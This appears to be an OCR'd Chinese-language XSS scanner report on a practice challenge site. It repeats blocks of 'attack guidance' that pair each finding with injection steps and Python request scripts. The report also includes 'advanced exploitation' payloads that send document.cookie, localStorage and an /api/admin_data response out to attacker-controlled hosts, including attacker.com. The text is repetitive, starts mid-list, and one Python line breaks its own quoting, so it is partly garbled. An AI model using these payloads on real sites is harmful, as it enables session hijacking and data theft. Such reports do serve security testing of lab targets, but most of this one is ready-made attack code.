 3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: critical
- 验证载荷: <svg onload=alert(document.domain)>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <svg onload=alert(document.domain)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<svg onload=alert(document.domain)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: critical
- 验证载荷: <img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>'}
   ```
